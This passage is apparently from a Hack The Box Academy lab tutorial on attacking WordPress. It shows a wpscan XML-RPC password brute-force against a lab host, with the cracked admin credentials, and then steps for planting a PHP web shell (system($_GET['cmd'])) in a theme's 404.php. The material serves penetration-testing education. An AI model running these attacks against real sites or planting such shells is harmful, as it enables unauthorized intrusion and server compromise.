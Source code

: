**WPscan - XMLRPC**

```shell-session
AbdulrahmanTamim@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```



## Remote Code Execution (RCE) via the Theme Editor

***

### Attacking the WordPress Backend

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on `Appearance` on the side panel and select `Theme Editor`. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.

**Theme Editor**

![image](https://academy.hackthebox.com/storage/modules/17/Theme-Editor.png)

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.

**Selecting Theme**

![image](https://academy.hackthebox.com/storage/modules/17/Twenty-Seventeen.png)

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.

**Twenty Seventeen Theme - 404.php**

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```
